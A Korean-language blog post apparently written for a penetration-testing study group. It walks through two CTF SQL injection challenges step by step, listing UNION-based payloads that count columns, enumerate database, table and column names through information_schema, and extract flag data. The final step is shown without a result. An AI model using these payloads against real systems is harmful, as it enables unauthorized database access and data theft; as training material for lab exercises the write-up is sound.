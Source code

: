 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[SECURITY] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# SQL INJECTION 1
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true)
-> 🤔 대소문자 구분이 없구나!
2. 🫣 ~~adminer'~~
-> X
3. **a%**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true)
-> 🤔 like 구절이 있구나
4. 🫣 ~~a#~~
-> X
5. 🫣 ~~a'#~~
-> X
6. **a%'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true)
> 🫣 ~~입력값이 들어가는 곳이 like 위치인가 보다~~
> 🤔 query에 괄호 안 사용하고 주석 필터링 없나 보다
7. 🫣 ~~' and '1' = '1~~
-> X
8. 🫣 ~~%' and '1' = '1~~
-> X
9. **' and '1' = '1'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true)
-> O

## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true)
-> O

11. ' order by 1, 2, 3, 4, 5 #
-> X
-> 🤔 column의 개수가 4개구만

## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true)
-> 예압 아주 사뿐하게 사용 가능했다.

## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true)
-> database 이름은 sqli_1이었다.

## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true)
-> table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.

## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true)
-> flag_table에서는 flag라는 column을 확인할 수 있었다.

21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true)
-> plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.

## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true)

23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true)

# SQL INJECTION 2
## SQL Query 파악
1. normaltic
-> 보이는 column은 ID, Level, Rank Point, info
2. normaltic' and '1' = '1
-> O
-> ID가 입력한 그대로 보임
3. *
-> row가 1개인가봐

## column 개수 파악하기
4. normaltic' order by 1, 2, 3, 4 #
-> O
5. normaltic' order by 1, 2, 3, 4, 5 #
-> O
6. normaltic' order by 1, 2, 3, 4, 5, 6 #
-> O
7. normaltic' order by 1, 2, 3, 4, 5, 6, 7 # 
-> X
-> column: 6

## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. ' union select database(), 2, 3, 4, 5, 6 #
-> X
-> 1 column 비공개다
9. ' union select 1, database(), 3, 4, 5, 6 #
-> 2 column 비공개다
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 6 column 공개

## TABLE 이름 확인하기
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> flag_honey

## COLUMN 이름 확인하기
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #
-> flag

## DATA 추출하기
13. ' union select 1, 2, 3, 4, 5, flag from flag_honey #
-> kkkkkkk_Not Here!
-> 어쩐지 구라핑의 냄새가 나더라


왜 1개씩 밖에 안 보일까?
-> row가 딱 한 개다?
14. ' or '1' = '1
-> row 1개
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
-> row가 한 개 밖에 안 보이니까
-> 다른 table이 있는 데 안 보이는 거지
12. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#
-> view라는 다른 table이 보여요 좋아요
13. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #
-> secret
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #
-> flag
13. ' union select 1, 2, 3, 4, 5, flag from secret #
-> NONONO~
14. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' order by 6 #
-> flag
15. ' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #